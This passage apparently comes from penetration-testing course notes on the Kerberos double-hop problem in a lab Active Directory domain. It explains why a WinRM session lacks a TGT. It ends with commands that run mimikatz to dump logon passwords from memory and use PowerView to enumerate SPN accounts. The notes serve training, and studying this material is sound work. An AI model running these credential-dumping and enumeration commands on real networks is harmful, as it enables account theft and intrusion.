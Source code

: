 ```powershell
```

There are indeed processes running in the context of the `backupadm` user, such as `wsmprovhost.exe`, which is the process that spawns when a Windows Remote PowerShell session is spawned.

```powershell
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
wsmprovhost.exe               1844 Services                   0     85,212 K Unknown         INLANEFREIGHT\backupadm
                             0:00:03 N/A
tasklist.exe                  6532 Services                   0      7,988 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
conhost.exe                   7048 Services                   0     12,656 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
```

In the simplest terms, in this situation, when we try to issue a multi-server command, our credentials will not be sent from the first machine to the second.

Let's say we have three hosts: `Attack host` --> `DEV01` --> `DC01`. Our Attack Host is a Parrot box within the corporate network but not joined to the domain. We obtain a set of credentials for a domain user and find that they are part of the `Remote Management Users` group on DEV01. We want to use `PowerView` to enumerate the domain, which requires communication with the Domain Controller, DC01.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When we connect to `DEV01` using a tool such as `evil-winrm`, we connect with network authentication, so our credentials are not stored in memory and, therefore, will not be present on the system to authenticate to other resources on behalf of our user. When we load a tool such as `PowerView` and attempt to query Active Directory, Kerberos has no way of telling the DC that our user can access resources in the domain. This happens because the user's Kerberos TGT (Ticket Granting Ticket) ticket is not sent to the remote session; therefore, the user has no way to prove their identity, and commands will no longer be run in this user's context. In other words, when authenticating to the target host, the user's ticket-granting service (TGS) ticket is sent to the remote service, which allows command execution, but the user's TGT ticket is not sent. When the user attempts to access subsequent resources in the domain, their TGT will not be present in the request, so the remote service will have no way to prove that the authentication attempt is valid, and we will be denied access to the remote service.


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname